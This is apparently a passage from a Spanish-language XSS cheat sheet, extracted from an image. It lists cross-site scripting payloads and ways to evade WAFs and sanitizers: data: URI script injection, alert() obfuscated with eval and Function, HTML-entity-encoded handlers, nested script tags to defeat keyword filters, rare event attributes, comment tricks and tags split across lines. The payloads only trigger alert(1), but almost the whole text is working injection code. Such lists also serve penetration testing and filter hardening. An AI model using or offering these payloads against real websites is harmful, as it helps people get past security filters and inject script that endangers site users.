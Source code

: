 
**Uso de `data:` URI con contenido HTML embebido**  
Técnica avanzada para inyectar contenido en navegadores que permiten `data:`.

```html
<a href="data:text/html,<script>alert(1)</script>">Click</a>
```

---

# Técnicas de bypass y evasión de filtros (WAF / sanitización parcial)

**Obfuscación de `alert()`**

```html
<script>eval('al' + 'ert(1)')</script>
<script>Function("ale"+"rt(1)")()</script>
```

---

**Escape de caracteres con entidades HTML**

```html
<script>alert&#40;1&#41;</script>
<svg/onload=&#97;&#108;&#101;&#114;&#116;&#40;1&#41;>
```

---

**Bypass de filtros anti-`script`**

```html
<scr<script>ipt>alert(1)</scr</script>ipt>
```

---

**Uso de eventos poco comunes**

```html
<video oncanplay=alert(1)>
<keygen autofocus onfocus=alert(1)>
```

---

**Uso de comentarios HTML para romper filtros**

```html
<script><!-- -->alert(1)//--></script>
```

---

**Uso de técnicas multilinea**

```html
<scr
ipt>
alert(1)
</scr
ipt>
```

---